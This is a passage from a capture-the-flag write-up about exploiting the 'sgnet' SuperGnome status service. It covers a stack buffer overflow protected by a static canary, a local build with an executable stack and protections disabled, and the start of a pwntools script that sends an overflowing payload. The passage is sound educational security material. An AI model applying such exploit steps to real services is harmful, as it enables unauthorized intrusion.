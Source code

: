 This application is susceptible to a trivial buffer overflow vulnerability but uses a static stack canary to ensure no stack smashing occured. Because we have the source code we know the stack canary is 0xe4ffffe4. 

I decided to compile this application on my own Linux machine to play with some exploitation! From seeing the inline assembler from before I assumed the service was running on a x86 system (or at least compiled for x86). I also installed [gdb-peda](https://github.com/longld/peda) and [pwntools](https://github.com/Gallopsled/pwntools).  I also compiled with an exec stack given the hint from before and compiled it without canaries as they had implemented their own. 

{% highlight bash %}
holidayHack/sgnet ~ gcc sgnet.c sgstatd.c -o sgnet -m32 -z execstack -fno-stack-protector
holidayHack/sgnet ~ ./sgnet 
Server started...
{% endhighlight %}

I received an errors while trying to netcat into 127.0.0.1:4242 

{% highlight bash %}
sgnet: Unable to change directory to /var/run/sgstatd
{% endhighlight %}

so I resolved it

{% highlight bash %}
holidayHack/sgnet ~ mkdir /var/run/sgstatd
{% endhighlight %}

and then was able to connect to the SuperGnome Server Status Center locally! 

{% highlight bash %}
holidayHack/sgnet ~ nc 127.0.0.1 4242

Welcome to the SuperGnome Server Status Center!
Please enter one of the following options:

1 - Analyze hard disk usage
2 - List open TCP sockets
3 - Check logged in users
{% endhighlight %}

I then started mocking up some exploit code.

Remember the functions we care about are

- sgnet_readn -> location of overflow
- sgstatd -> canary check

{% highlight python %}
#!/usr/bin/env python                                                                                    
from pwn import *

host = '127.0.0.1'
port = '4242'

print '[+] Exploiting'

r = remote(host, port)
r.recvuntil('users')
r.send("X")
r.recvuntil('protected!')

r.send("A"*200)

{% endhighlight %}
